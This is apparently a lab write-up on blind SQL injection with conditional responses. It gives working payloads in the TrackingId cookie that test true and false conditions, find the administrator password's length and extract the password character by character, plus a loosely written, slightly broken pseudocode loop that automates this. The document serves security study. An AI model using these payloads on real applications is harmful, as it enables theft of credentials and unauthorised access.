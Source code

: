 # Blind SQL injection

Blind sql injection arises when an application vulnerable to SQL injection without returning the relevant result from SQL query.

## Lab: Blind SQL injection with conditional responses


Example SQL query:
```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
``` 
Example injected SQL query with `' AND '1'='1`:

```

SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4[' AND '1'='1]'
```

Steps:
1. Identify page length with and without "Welcome back!" message

```
' AND '1'='1
' AND '1'='2 
```
3. Determine password length

```
' AND (SELECT 'a' FROM users WHERE username = 'administrator' AND LENGTH(password) > 8) = 'a
' AND (SELECT 'a' FROM users WHERE username = 'administrator' AND LENGTH(password) < 21) = 'a
```

5. Extract the password

```
' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'),1,1) = 'a
```

Pseudo:
```
for index in range (1, 21):
	for char in chars:
	cookies = {
		"TrackingId" : "' AND SUBSTRING((SELECT password FROM users WHERE
		username 'administrator'),{index},1) = '{char}'"
	}
	requests.get(url, cookies)
```
Automated script in scripts folder.
